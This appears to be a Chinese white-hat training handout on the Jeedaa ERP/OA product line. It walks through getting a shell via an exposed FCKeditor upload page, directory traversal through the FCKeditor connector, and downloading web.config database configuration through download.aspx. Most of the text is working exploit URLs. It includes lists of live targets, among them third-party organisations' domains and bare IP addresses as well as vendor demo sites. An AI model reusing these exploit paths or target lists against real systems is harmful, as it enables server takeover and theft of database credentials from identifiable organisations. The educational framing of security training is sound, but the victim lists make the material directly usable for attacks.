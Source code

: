 ```yaml
---
title: 米斯特白帽培训讲义（v2）实战篇 捷达系统
id: csdn62039365
---
```


# 米斯特白帽培训讲义 实战篇 捷达系统

> 讲师：[gh0stkey](https://www.zhihu.com/people/gh0stkey/answers)
> 
> 整理：[飞龙](https://github.com/)
> 
> 协议：[CC BY-NC-SA 4.0](http://creativecommons.org/licenses/by-nc-sa/4.0/)

## 概述

官网：[http://www.jeedaa.com/](http://www.jeedaa.com/)

主要产品有：

*   捷达ERP
*   捷达OA
*   捷达eHR
*   捷达CRM
*   捷达eFax
*   捷达仓库管理
*   捷达进销存.Net
*   捷达协同办公.Net

均存在能够 GetShell 的漏洞。

这个东西仍旧是闭源的，我们使用它的演示站点，`http://demoerp.jeedaa.com`来进行演示。

## 文件上传

我们用御剑扫一扫。

![](../img/9634077baf0c541b7bb53fbf7397c94e.png)

出现了 FCKEditer。我们访问`/fckeditor`，发现是 403 的。

![](../img/38615176bdb0b07bd50c065d7ab4a538.png)

但是我们扫描`/fckeditor/fckeditor`：

![](../img/7b5b0bdb008aab0d941c2280e85df9b0.png)

发现有三个 200。我们访问`/fckeditor/fckeditor/editor/filemanager/upload/test.html`：

![](../img/18348850835d7f90b3001e63ae4e912e.png)

我们在查看元素里面添加一个 ASPX，然后随便上传一个 ASP 文件上去。获得了该文件的链接。

![](../img/90ffe9ea5f5760ed76fae94996c6b61b.png)

![](../img/1e60e8951e1db62269ff5128060af3b3.png)

部分案例（均为捷达的演示站点）：

*   `http://erp2008v4.jeedaa.com/fckeditor/FCKeditor/editor/filemanager/upload/test.html`
*   `http://erp.jeedaa.com/fckeditor/FCKeditor/editor/filemanager/upload/test.html`
*   `http://qd.jeedaa.net//fckeditor/FCKeditor/editor/filemanager/upload/test.html`
*   `http://oa.jeedaa.com/fckeditor/FCKeditor/editor/filemanager/upload/test.html`
*   `http://demoerp.jeedaa.com/fckeditor/FCKeditor/editor/filemanager/upload/test.html`
*   `http://crm.jeedaa.com/fckeditor/FCKeditor/editor/filemanager/upload/test.html`
*   `http://shijia.jeedaa.com/fckeditor/FCKeditor/editor/filemanager/upload/test.html`
*   `http://lg.jeedaa.com/fckeditor/FCKeditor/editor/filemanager/upload/test.html`
*   `http://hj.jeedaa.com/fckeditor/FCKeditor/editor/filemanager/upload/test.html`

## 目录遍历

访问`/fckeditor/FCKeditor/editor/filemanager/browser/default/connectors/aspx/connector.aspx?Command=GetFoldersAndFiles&Type=E:/&CurrentFolder=%2F`

![](../img/27c644d04b9133f8b93ab0bae30fa7da.png)

可以改动`CurrentFolder`参数来进入子目录，也可以改动`Type`参数来切换盘符。

## 文件下载

访问`/WebApp/PassportService/download.aspx?p=/AccreditAdmin/Web.config`下载数据库文件：

![](../img/d0acf1e53112cc70d2905e88371ed2d9.png)

部分案例：

*   `http://221.136.81.169/WebApp/PassportService/download.aspx?p=web.config`
*   `http://61.164.170.82:88/WebApp/PassportService/download.aspx?p=web.config`
*   `http://www.nbjyly.com/WebApp/PassportService/download.aspx?p=web.config`
*   `http://oa.jobgroup.cn:2013/WebApp/PassportService/download.aspx?p=web.config`
*   `http://erp2008v4.jeedaa.com/WebApp/PassportService/download.aspx?p=web.config`
*   `http://erp.jeedaa.com/WebApp/PassportService/download.aspx?p=web.config`
*   `http://qd.jeedaa.net//WebApp/PassportService/download.aspx?p=web.config`
*   `http://61.130.104.162:8080/WebApp/PassportService/download.aspx?p=web.config`
*   `http://oa.jeedaa.com/WebApp/PassportService/download.aspx?p=web.config`
*   `http://demoerp.jeedaa.com/WebApp/PassportService/download.aspx?p=web.config`
*   `http://crm.jeedaa.com/WebApp/PassportService/download.aspx?p=web.config`
*   `http://shijia.jeedaa.com/WebApp/PassportService/download.aspx?p=web.config`
*   `http://lg.jeedaa.com/WebApp/PassportService/download.aspx?p=web.config`
*   `http://hj.jeedaa.com/WebApp/PassportService/download.aspx?p=web.config`
*   `http://oa.nbself.com/WebApp/PassportService/download.aspx?p=web.config`
*   `http://61.164.170.82:88/WebApp/PassportService/download.aspx?p=web.config`